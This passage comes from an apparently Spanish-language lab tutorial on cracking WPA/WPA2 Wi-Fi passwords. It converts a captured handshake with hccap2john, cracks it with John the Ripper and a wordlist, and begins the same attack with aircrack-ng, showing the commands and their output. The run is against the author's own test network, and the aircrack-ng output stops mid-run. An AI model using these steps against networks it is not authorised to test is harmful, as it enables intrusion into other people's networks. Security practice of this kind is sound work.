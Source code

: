       hccap2john < captura >  > < Nombre del hash >
  
  ```bash
  (kali㉿Hacknet)-[~/Escritorio/labWireless]
  Sie7e>$ hccap2john hash.hcap > hash 
  ```
  - Teniendo el hash, podemos crackearlo con john de la siguiente manera:


  ```bash
  (kali㉿Hacknet)-[~/Escritorio/labWireless]
  Sie7e>$ john --wordlist=/usr/share/wordlists/rockyou.txt hash                                                                                                                     1 ⨯
  Warning: detected hash type "wpapsk", but the string is also recognized as "wpapsk-pmk"
  Use the "--format=wpapsk-pmk" option to force loading these as that type instead
  Using default input encoding: UTF-8
  Loaded 1 password hash (wpapsk, WPA/WPA2/PMF/PMKID PSK [PBKDF2-SHA1 256/256 AVX2 8x])
  Will run 4 OpenMP threads
  Note: Minimum length forced to 8 by format
  Press 'q' or Ctrl-C to abort, almost any other key for status
  123456789        (SieteLand)     
  1g 0:00:00:00 DONE (2022-02-20 02:11) 33.33g/s 4266p/s 4266c/s 4266C/s 123456789..manchester
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed. 

  ```
  password: 123456789

- **CRACKING CON AIRCRACK-NG**

    - **aircrack -w < diccionario > < captura.cap>**

    ```bash
    (kali㉿Hacknet)-[~/Escritorio/labWireless]
    Sie7e>$ aircrack-ng captura-01.cap -w /usr/share/wordlists/rockyou.txt
    Reading packets, please wait...
    Opening captura-01.cap
    Read 24770 packets.

   #  BSSID              ESSID                     Encryption

   1  B4:1C:30:6C:03:E8  SieteLand                 WPA (1 handshake)

    Choosing first network as target.

    Reading packets, please wait...
    Opening captura-01.cap
    Read 24770 packets.

    1 potential targets

                               Aircrack-ng 1.6 

      [00:00:00] 142/10303727 keys tested (3948.93 k/s) 

      Time left: 1 hour, 22 minutes, 38 seconds                  0.00%
